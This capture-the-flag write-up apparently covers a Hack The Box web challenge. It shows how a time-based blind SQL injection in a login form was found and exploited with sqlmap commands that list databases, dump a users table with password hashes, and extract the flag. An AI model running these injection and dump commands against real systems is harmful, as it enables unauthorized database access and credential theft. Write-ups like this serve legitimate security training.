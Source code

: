 # Productivity Request

**Category**: Web

**Points**: 350pts

**TL;DR:** SQLi on the login endpoint to dump the DB contents. 💾💉⬇️📜

**Solution:**
As this challenge did not provide any sources and we only had two input fields, our first thought was to look for SQLi. Using sqlmap we discovered that ***the username parameter was vulnerable to [time-based blind SQLi.](https://beaglesecurity.com/blog/vulnerability/time-based-blind-sql-injection.html)*

As we had a time-based blind  SQLi, each injection took a couple of minutes to return the desired information. However, as we were not sure what we were looking for, we went step by step, searching through all available databases until we finally focused on the requestdb.

Getting the DBs:

	sqlmap -r login.txt --flush-session --dbms MySql --dbs 

- information_schema
- requestdb
- test (which was empty)

Getting the tables in requestdb:
	
	sqlmap -r login.txt --flush-session --dbms MySql -D requestdb --tables 

-  requestlist
- users

Dumping the data in the user table:
	
	sqlmap -r login.txt --flush-session -D requestdb --dbms MySql --dump -T users 

| id  | password                         | username  | 
| --- | -------------------------------- | --------- |
| 1   | 81b02809a35976b5f98ce12bb9dd9ba9 | user34531 |
| 2   | 275206a266635e02f1a5134472652683 | admin     |

This, of course, caught our attention, but checking the hashes did not produce any passwords. So we moved on to ***dump the data in the requestlist table***, which gave us the flag **HTB{byp4553d_4nd_35c4l4t3d}**.

	sqlmap -r login.txt --flush-session -D requestdb --dbms MySql --dump -T requestlist 

| id  | product                     | approved | location | receiver |
| --- | --------------------------- | -------- | -------- | -------- |
|     |                             | .        |          |          |
|     |                             | .        |          |          |
|     |                             | .        |          |          |
| 8   | HTB{byp4553d_4nd_35c4l4t3d} | 0        | HTBland  | HTBer    |
